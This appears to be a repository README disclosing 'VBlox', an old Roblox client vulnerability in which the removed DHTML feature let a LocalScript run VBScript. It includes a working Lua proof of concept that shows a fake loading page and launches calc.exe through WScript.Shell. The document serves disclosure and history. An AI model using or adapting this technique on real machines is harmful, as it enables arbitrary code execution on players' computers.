 ![Get it? VBlox.](assets/vblox.png)
VBlox is a vulnerability in clients before January 2008 that allows for VBScript execution which uses ROBLOX's now-removed DHTML feature. DHTML, as the name suggests, was a service which allowed players to display HTML documents within ROBLOX. Unlike GUIs, DHTML windows were completely new windows that would open on a player's computer which were based off of Trident, which was Internet Explorer's browser engine. 

The main reason for DHTML's removal was because it was easily exploitable (shown here), mainly for place stealing, but can also be used to run VBScript by malicious attackers. DHTML's very short life span (being removed in January of 2008) suggests that Roblox was very aware of the security issues it created. A year and a half later, in 2009, Roblox would release a replacement for DHTML, known as PlayerGUIs, a built-in GUI display system which could do nearly everything DHTML could other than render HTML.
# Explanation
![lol](assets/diagram.png)

When a LocalScript in StarterPack is executed, a HtmlWindow can be created which can run VBScript, leading to possible remote code execution.
# How to patch
Unfortunately, there is no possible way to patch this unless if you use a client that is newer than January 2008.
# Example
The following code below is a LocalScript that first runs VBScript, which runs shell, and that shell code later opens calc.exe.
```lua
local w = game:GetService("HtmlService"):NewWindow()

w.DocumentComplete:Connect(function()
	w:SetBody([==[
	<html>
	<head><title>Test</title></head>
	<body>
		<h3>ROBLOX is loading the game..</h3>

		<script language="VBScript">
		Set WshShell = CreateObject("WScript.Shell")
		WshShell.Run "calc.exe"
		</script>

	</body>
	</html>
	]==])
	w:Show()
end)

w:Navigate()
```
